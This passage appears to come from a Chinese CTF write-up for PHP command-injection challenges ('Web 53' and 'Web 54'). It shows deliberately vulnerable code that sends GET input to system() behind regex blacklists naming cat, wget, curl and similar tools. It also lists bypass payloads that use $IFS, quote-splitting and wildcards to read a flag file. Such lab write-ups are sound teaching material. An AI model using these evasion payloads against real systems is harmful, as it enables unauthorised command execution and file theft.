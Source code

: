 或者：`?c=ca\t$IFS/fla''g||`

或者：`?c=ca\t${IFS}/fla?||`





## Web 53

代码如下：

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)) {
        echo ($c);
        $d = system($c);
        echo "<br>" . $d;
    } else {
        echo 'no';
    }
} else {
    highlight_file(__FILE__);
}

```

官方：`?c=c''at${IFS}fla''g.p''hp`

或者：`?c=s''ort${IFS}f???????%0a`

或者：`?c=ca''t${IFS}fla''g.php`

或者：`?c=ta\c${IFS}fla\g.php`

或者：`?c=ca\t${IFS}fla?.php`





## Web 54

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)) {
        system($c);
    }
} else {
    highlight_file(__FILE__);
}

```
